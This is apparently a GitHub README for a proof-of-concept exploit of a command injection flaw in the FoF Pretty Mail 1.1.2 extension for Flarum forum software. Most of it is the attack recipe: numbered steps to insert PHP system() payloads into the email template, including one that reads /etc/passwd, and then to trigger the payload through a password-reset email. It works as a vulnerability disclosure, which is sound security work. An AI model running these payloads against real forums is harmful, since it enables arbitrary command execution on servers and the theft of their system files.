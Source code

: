 # Flarum FoF Pretty Mail Command Injection
Exploit for a command injection vulnerability in the FoF Pretty Mail extension (version 1.1.2) for Flarum, a popular open-source forum software. The vulnerability arises due to the unsafe handling of user input in the email template feature of the extension. <br>
An attacker with administrative access can exploit this vulnerability by injecting PHP code into the email template, leading to arbitrary command execution on the server. This could potentially compromise the security of the server and lead to unauthorized access or data exfiltration.

Usage:

1.    Log in as an administrator on the Flarum forum.
2.    Navigate to the FoF Pretty Mail extension settings.
3.    Edit the email default template and insert one of the following payloads at the end of the template:
        <?php system('echo "Take The Rose"; id'); ?>
        <?php system('echo "Take The Rose"; cat /etc/passwd'); ?>
 4.   Save the changes to the email template.
 5.   Trigger any action that sends an email, such as user registration or password reset.
    The recipient of the email will see the message "Take The Rose" followed by the output of the injected command (id or cat /etc/passwd) in the email content.
    

POC:

Editing the default email template
<br> 
Payload: 
```bash
 <?php system('echo "Take The Rose"; cat /etc/passwd'); ?>
```
<br>

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/ca8e6852-7b30-43a0-bd3f-90e2d0898f24)


Per example triggered forgot password action for receiving a email 
<br>

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/787a4959-8c01-4f5b-869d-4a6a0f9ffcf4)

<br> 
on the email, receiving:
<br> <br> 

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/e2215324-2759-4d77-a672-3313bafc7a2e)
